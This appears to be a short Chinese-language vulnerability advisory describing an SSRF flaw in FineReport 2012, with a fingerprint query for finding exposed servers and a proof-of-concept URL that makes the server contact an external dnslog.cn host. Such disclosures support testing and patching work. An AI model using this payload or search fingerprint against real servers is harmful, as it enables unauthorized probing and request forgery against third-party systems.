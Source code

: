 # 

# 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![image-20220209113126929](./images/202202091131035.png)


